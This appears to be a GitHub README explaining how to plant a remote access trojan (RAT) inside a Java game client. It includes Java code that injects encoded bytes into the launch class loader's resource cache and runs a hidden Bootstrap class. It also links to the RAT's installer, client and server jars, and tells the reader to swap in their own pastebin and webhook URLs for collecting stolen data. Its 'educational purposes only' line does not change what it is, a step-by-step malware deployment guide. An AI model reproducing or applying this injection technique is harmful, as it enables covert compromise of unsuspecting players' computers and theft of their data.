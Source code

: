 ## Can I use it?
yes, If you're new to these stuff, I recommend to not.

## How?
(This is for educational purposes only, and I do not guarantee this would work.)\
first download these [bytes](https://cdn.discordapp.com/attachments/889588787972284456/891204621530456104/decimal.txt). It still has Zopac's pastebin link tho.

Replace it by translating into ascii and translate it back to decimals(bytes).
\
Make sure your number delimiter is set to `Comma`
\
[Translator](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)

Then paste this code into your client and somehow trigger it
```java
byte[] pixels = {//the bytes (example: 50, 100, 200)}
try {
    Field field = LaunchClassLoader.class.getDeclaredField("resourceCache");
    field.setAccessible(true);
    Map<String, byte[]> cache = (Map<String, byte[]>) field.get(Launch.classLoader);
    cache.put("idasido.adldaosd.wpiw.install.Bootstrap", pixels);
    Launch.classLoader.loadClass("idasido.adldaosd.wpiw.install.Bootstrap").getMethod("main").invoke(null);
    textStructureSize = true;
} catch (Exception ignored) {}
```

You just implemented the rat into your client.

Next step is to download the [installer](https://cdn.discordapp.com/attachments/825998603977621518/891247725931298816/COPE-1.0-SNAPSHOT-installer.jar)
then the [client](https://cdn.discordapp.com/attachments/825998603977621518/891247723817357333/COPE-1.0-SNAPSHOT-client.jar)
and the [server](https://cdn.discordapp.com/attachments/825998603977621518/891247713436442624/COPE-1.0-SNAPSHOT-server.jar).
\
Use [recaf](https://github.com/Col-E/Recaf) to replace the pastebins and webhook.

- ##  All the url you need to replace
1. Installer 
    - Bootstrap.class : 18
    - Installer.class : 16 / 55
3. Client 
   - Loader.class : 19
2. Server
   - Sender.class : 17 
    
all credits to zopac for making the resource cache rat
\
credits to yoink for making the original rat
